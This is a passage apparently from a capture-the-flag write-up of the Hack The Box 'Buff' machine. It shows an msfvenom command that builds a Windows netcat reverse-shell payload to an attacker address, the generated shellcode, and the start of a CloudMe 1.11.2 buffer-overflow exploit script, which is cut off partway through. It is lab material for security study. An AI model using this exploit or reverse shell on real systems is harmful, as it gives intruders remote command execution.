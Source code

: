 ```shell
┌─[matt@parrot]─[~/htb/buff]
└──╼$ msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.2 4000 -e cmd.exe' -b '\x00\x0a\0d' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 272 (iteration=0)
x86/shikata_ga_nai chosen with final size 272
Payload size: 272 bytes
Final size of python file: 1448 bytes
payload = b""
payload += b"\xba\x9a\xb2\x94\xe2\xda\xd7\xd9\x74\x24\xf4\x5e"
payload += b"\x2b\xc9\xb1\x3e\x31\x56\x13\x83\xee\xfc\x03\x56"
payload += b"\x95\x50\x61\x1e\x41\x16\x8a\xdf\x91\x77\x02\x3a"
payload += b"\xa0\xb7\x70\x4e\x92\x07\xf2\x02\x1e\xe3\x56\xb7"
payload += b"\x95\x81\x7e\xb8\x1e\x2f\x59\xf7\x9f\x1c\x99\x96"
payload += b"\x23\x5f\xce\x78\x1a\x90\x03\x78\x5b\xcd\xee\x28"
payload += b"\x34\x99\x5d\xdd\x31\xd7\x5d\x56\x09\xf9\xe5\x8b"
payload += b"\xd9\xf8\xc4\x1d\x52\xa3\xc6\x9c\xb7\xdf\x4e\x87"
payload += b"\xd4\xda\x19\x3c\x2e\x90\x9b\x94\x7f\x59\x37\xd9"
payload += b"\xb0\xa8\x49\x1d\x76\x53\x3c\x57\x85\xee\x47\xac"
payload += b"\xf4\x34\xcd\x37\x5e\xbe\x75\x9c\x5f\x13\xe3\x57"
payload += b"\x53\xd8\x67\x3f\x77\xdf\xa4\x4b\x83\x54\x4b\x9c"
payload += b"\x02\x2e\x68\x38\x4f\xf4\x11\x19\x35\x5b\x2d\x79"
payload += b"\x96\x04\x8b\xf1\x3a\x50\xa6\x5b\x50\xa7\x34\xe6"
payload += b"\x16\xa7\x46\xe9\x06\xc0\x77\x62\xc9\x97\x87\xa1"
payload += b"\xae\x68\xc2\xe8\x86\xe0\x8b\x78\x9b\x6c\x2c\x57"
payload += b"\xdf\x88\xaf\x52\x9f\x6e\xaf\x16\x9a\x2b\x77\xca"
payload += b"\xd6\x24\x12\xec\x45\x44\x37\xaf\x53\xe6\xc0\x51"
payload += b"\xce\x66\x41\xce\x78\xf3\xc5\x81\x1b\x88\x59\x39"
payload += b"\xa2\x03\x3e\xb0\x24\xb0\xd1\x5b\xa0\x14\x40\xff"
payload += b"\x06\xc0\xe4\x9a\x76\x3b\x25\x4b\x47\x0b\x6b\xa2"
payload += b"\x93\x45\x41\xe4\xef\xa9\x95\xd4\x2f\xe7\xb0\x34"
payload += b"\x4c\x9a\x5e\x1b\xf7\x1c\xfa\x63"
┌─[matt@parrot]─[~/htb/buff]
└──╼$ 
```

With the aforementioned modifications, the python script looked like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
#Instructions:
# Start the CloudMe service and run the script.
import socket
target = "127.0.0.1"
padding1 = b"\x90" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x90" * 30
#msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.2 4000 -e cmd.exe' -b '\x00\x0a\0d' -f python -v payload
payload = b""
payload += b"\xbf\x4a\xb2\x83\xb1\xdd\xc2\xd9\x74\x24\xf4\x5d"
payload += b"\x31\xc9\xb1\x3e\x83\xc5\x04\x31\x7d\x0f\x03\x7d"
payload += b"\x45\x50\x76\x4d\xb1\x16\x79\xae\x41\x77\xf3\x4b"
payload += b"\x70\xb7\x67\x1f\x22\x07\xe3\x4d\xce\xec\xa1\x65"
payload += b"\x45\x80\x6d\x89\xee\x2f\x48\xa4\xef\x1c\xa8\xa7"
```